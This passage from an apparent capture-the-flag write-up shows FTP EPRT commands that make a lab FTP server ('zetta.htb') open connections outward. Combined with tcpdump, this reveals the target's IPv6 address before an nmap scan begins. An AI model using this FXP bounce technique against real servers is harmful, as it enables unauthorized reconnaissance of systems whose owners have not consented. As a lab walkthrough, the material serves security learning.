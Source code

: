 ```bash
Using binary mode to transfer files.
ftp> 

```
here you can see `FXP transfers` supports so I used this and got IPV6 from IPV4. If you are familiar with this then you can skip this blog but if you are unknown about this IPV6 and want to know how I got that then you can have a look at this [RFC2428](https://tools.ietf.org/html/rfc2428).

At first I had set tcpdump listner as 

```bash
root@gr4n173:~$tcpdump -lni tun0 -vvvvvvvv ip6
tcpdump: listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes

```
Now using this commands:-

```ftp
ftp> quote EPRT |1|10.10.10.156|2222|
200-FXP transfer: from 10.10.16.25 to 10.10.10.156
200 PORT command successful
ftp> quote EPRT |2|2001:41d0:52:a00::e66|2222|
200-FXP transfer: from 10.10.10.156 to 2001:41d0:52:a00::e66%176
200 PORT command successful
ftp> quote EPRT |1|10.10.10.156|2222|
200-FXP transfer: from 2001:41d0:52:a00::e66%176 to 10.10.10.156
200 PORT command successful
ftp> quote EPRT |2|dead:beef:2::11df|2222|
200-FXP transfer: from 10.10.10.156 to dead:beef:2::11df%160
200 PORT command successful
ftp> LIST
?Invalid command
ftp> quote LIST
425 Could not open data connection to port 2222: Connection refused
ftp>

```
from first command 

```bash
quote EPRT |1|10.10.10.156|2222|
quote EPRT |2|2001:41d0:52:a00::e66|2222|
```
this specifies server should use IPV4 to open a data connection to host of zetta.htb on port 2222 and similar for second command IP6 . Now in third command IPV4 is activated again and IPV6 of my own ip which I got from `ifconfig` is used. 

This was I got IPV6 as _**dead:beef::250:56ff:febd:a9a4**_

```bash
root@gr4n173:~$ tcpdump -lni tun0 -vvvvvvvv ip6
tcpdump: listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
21:57:25.140243 IP6 (flowlabel 0x924d3, hlim 63, next-header TCP (6) payload length: 40) dead:beef::250:56ff:febd:a9a4.51208 > dead:beef:2::11df.2222: Flags [S], cksum 0x9b6f (correct),
seq 2652376284, win 28800, options [mss 1337,sackOK,TS val 1847133177 ecr 0,nop,wscale 7], length 0
21:57:25.140287 IP6 (flowlabel 0x55bf9, hlim 64, next-header TCP (6) payload length: 20) dead:beef:2::11df.2222 > _dead:beef::250:56ff:febd:a9a4_.51208: Flags [R.], cksum 0xe556 (correct),
seq 0, ack 2652376285, win 0, length 0

```
I pinged to this IPV6 and I got pinged back which indicates it was working fine. Now I tried again with nmap for IPV6 and got this with rsync service at port 8730 as 
